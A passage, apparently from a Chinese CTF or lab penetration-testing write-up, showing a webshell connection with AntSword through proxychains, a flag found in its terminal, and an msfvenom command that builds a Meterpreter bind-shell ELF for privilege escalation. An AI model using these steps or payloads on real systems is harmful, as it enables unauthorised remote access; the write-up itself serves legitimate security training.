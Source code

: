 使用蚁剑连接

```plain
proxychains4 ./AntSword 
//或者直接在AntSword中设置代理
```

[![](assets/1705981930-c0ec6e9e2c55650b343569a6d8d612bf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143622-6450e310-b827-1.png)

打开虚拟终端发现了一个flag

[![](assets/1705981930-e01b5d171840b7ed41d2ce1dd3423597.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240121143637-6d54be64-b827-1.png)

### 3.3提权

使用mefvenom生成一个可执行的反弹shell

```plain
msfvenom -p linux/x86/meterpreter/bind_tcp lport=9876 -f elf -o shell2.elf
```
